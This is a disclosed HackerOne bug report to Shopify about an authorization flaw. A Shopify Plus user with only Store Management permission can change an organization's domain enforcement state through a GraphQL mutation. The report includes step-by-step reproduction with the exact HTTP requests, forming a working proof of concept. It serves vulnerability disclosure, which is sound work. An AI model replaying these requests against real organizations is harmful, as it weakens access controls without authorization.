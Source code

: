 # [h1-2102] [Plus] User with Store Management Permission can Make changeDomainEnforcementState - that should be limited to User Management Only

## Report Details
- **Report ID**: 1084892
- **URL**: https://hackerone.com/reports/1084892
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-22T22:10:18.229Z
- **Disclosed**: 2022-04-21T22:05:27.786Z

## Reporter
- **Username**: ngalog
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:
User with Store Management Permission can Make changeDomainEnforcementState - that should be limited to User Management Only

## Description:
User with `Store management` permission - {F1168470} only, is able to change user management settings using the graphql

## Steps To Reproduce:
- 
- 
- 
- 

- As an org plus admin, visit https://shopify.plus/:org_plus_id/users/invite and invite an user to have `store management permission` - (The purpose is to enable the low-privileged user to have access to https://shopify.plus/:plus_org_id/stores/api
- As an org plus admin, create a Org domain, by visiting `https://shopify.plus/:id/users/security` and `Add Domain`
- Login as the low-priviledged user, and visit shopify.plus and click around until you made a valid graphql call to shopify.plus, it looks something like this `POST /34946971/stores/api HTTP/1.1`
- Make this call to figure out the domain id of your organization as a low privileged user 

```
POST /34946971/stores/api HTTP/1.1
Host: shopify.plus
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
...

{"query":"query{organization{domains{id}}}"}
```

- Grab the id and replace the REPLACE_ME in the below GraphQL call

```
POST /34946971/stores/api HTTP/1.1
Host: shopify.plus
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
...

{"query":"mutation  {\n  changeDomainEnforcementState(domainIds: [\"REPLACE_ME\"],enforcementState:NOT_ENFORCED) {\n    organization {\n      id\n      domains {\n        id\n        domainName\n        status\n        verified\n        __typename\n      }\n      __typename\n    }\n    userErrors {\n      field\n      message\n      __typename\n    }\n    __typename\n  }\n}\n"}
```

- Then it shows you are able to `changeDomainEnforcementState` by just having Store Management permission



## Supporting Material/References:

## Impact

User with Store Management permission can enforce/unenforce domain state

## Attachments
- Screen_Shot_2021-01-22_at_11.15.03_PM.png
